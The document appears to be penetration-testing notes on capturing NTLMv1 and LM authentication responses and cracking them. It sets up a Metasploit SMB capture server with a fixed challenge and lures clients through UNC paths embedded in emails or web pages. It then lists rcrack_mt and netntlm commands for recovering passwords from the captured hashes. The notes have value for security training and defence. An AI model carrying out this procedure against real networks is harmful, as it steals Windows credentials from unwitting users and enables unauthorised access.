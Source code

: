 ```mermaid

    Note over FakeServer: Capturing client response with LMHASH and NTHASH

	Note over FakeServer: Cracking hashes using rainbow tables or other tools

```

1. **Objective:** Capture the client response (Type 3 message) in LM and NTLMv1 authentication protocols.
    
2. **Methods:**
    
    - **Option 1:** Force the client to initiate a connection to a fake server.
    - **Option 2:** Use Man-in-the-Middle techniques to sniff the client response.
3. **Exploitation Process:**
    
    - Set up a listening SMB service (e.g., Metasploit module) on a fake server with a fixed challenge (1122334455667788).
    - Use SMB authentication to force the client to connect to the fake server.
    - Capture the client's encrypted response, including LMHASH and NTHASH.
    - Do not forget to set Metasploit to automaticaly save the hashes to file.
    
1. **Tools:**
    
    - Metasploit module: auxiliary/server/capture/smb
5. **Hash Cracking:**
    
    - Use rainbow tables for the fixed 8-byte server challenge (1122334455667788).
    - No timestamp or nonce in Type 3 message allows the use of rainbow tables.
6. **Initiating NTLM Protocol:**
    
    - Embed Universal Naming Convention (UNC) path (\SERVER_IP\SHARE) in an email or web page to force SMB authentication.
7. **Observations:**
    
    - Challenge response remains the same for every connection due to the fixed challenge.
    - LMHASH and NTHASH represent client response; differences indicate LM or NT hashes in use.
    - Passwords ≤ 7 characters result in the last 8 bytes of NTLM response always being **2f85252cc731bb25**.
8. **Cracking Hashes:**
    
    - Utilize various tools (online/offline) for cracking captured hashes.
    - Credentials saved by Metasploit for use with tools like John the Ripper.
9. **Important Note:**
    
    - NTLMv1 protocols' randomness is defeated using the crafted challenge 1122334455667788, demonstrating a lack of true randomness in the protocol.
## Cracking captured LM hashes using rainbow tables or other tools
```bash
$ cat hashes # file containing captured hashes from $ msf> capture/smb
$ cd halflmhash # go to folder with rainbow tables
$ sudo rcrack_mt -h <8 bytes of LM HASH> -t 4 *.rti # rainbowcrack captured lmhash (8bytes= 16 first chars) using all rainbow tables  
# rcrack returns plaintext of part of hash
$ sudo perl netntlm --file <path/to/hashhes_file> --seed <found_plaintext_of_found_hash> # cracks full password, returns password in full uppercase
$ sudo perl netntlm --file <path/to/hashhes_file> --seed <found_uppercase_password> # returns case sensitive password
```
# SMB Relay Attack on NTLMv1/NTLMv2
